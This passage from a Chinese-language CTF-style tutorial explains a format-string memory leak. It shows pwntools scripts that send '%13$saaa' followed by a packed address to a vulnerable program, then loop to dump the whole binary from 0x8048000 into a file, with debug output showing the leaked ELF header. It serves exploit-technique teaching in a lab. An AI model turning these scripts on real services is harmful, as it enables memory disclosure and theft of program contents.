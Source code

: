 发生了EOFError, 这是因为
```
>>> p32(0x8048000)
'\x00\x80\x04\x08'
```

`printf` 根据`\x00`判断结尾

所以我们需要更改下payload
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'
p = remote("127.0.0.1",10001)
p.send("%13$saaa" + p32(0x8048000))
print p.recv()
```

可以成功dump数据了:
```
$ python fmt_test.py
[+] Starting local process './a.out' argv=['a.out'] : Done
[DEBUG] Sent 0xc bytes:
    00000000  25 31 33 24  73 61 61 61  00 80 04 08               │%13$│saaa│····││
    0000000c
[DEBUG] Received 0xa bytes:
    00000000  7f 45 4c 46  01 01 01 61  61 61                     │·ELF│···a│aa│
    0000000a

```

原理都懂了，可以写payload去dump 整个bin回来了
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *


context.log_level = 'debug'
f = open("source.bin", "ab+")

begin = 0x8048000
offset = 0

while True:
	addr = begin + offset
	p = process("a.out")
	p.sendline("%13$saaa" + p32(addr))
	try:
		info = p.recvuntil("aaa")[:-3]
	except EOFError:
		print offset
		break
	info += "\x00"
	p.close()
	offset += len(info)
	f.write(info)
	f.flush()

f.close()

```
